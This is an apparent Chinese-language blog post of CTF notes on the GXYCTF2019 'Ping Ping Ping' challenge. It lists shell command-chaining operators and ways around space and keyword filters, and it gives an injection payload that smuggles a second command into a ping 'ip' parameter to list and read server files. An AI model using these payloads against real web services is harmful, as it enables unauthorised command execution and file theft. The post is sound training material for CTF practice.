 ```yaml
---
layout: post
title: "Linux命令绕过，以[GXYCTF2019] Ping Ping Ping为例"
date:   2024-9-29
tags: [Linux, 绕过, CTF, WEB]
comments: true
author: MK-KM1542
---
```

一些Linux命令的绕过姿势，做[GXYCTF2019] Ping Ping Ping的笔记

## 命令联合执行

```bash
;     前面的执行完执行后面的
|     管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）         
||    当前面的执行出错时（为假）执行后面的
&     将任务置于后台执行
&&    前面的语句为假则直接出错，后面的也不执行，前面只能为真
%0a  （换行）
%0d  （回车）
```

## 命令绕过空格方法

```bash
${IFS}$9
        
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）

ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以
ca\t /fl\ag
```

## 内联执行

内联，就是***将反引号内命令的输出作为输入执行***

```bash
?ip=127.0.0.1;cat$IFS$9`ls`

$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字

这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
```
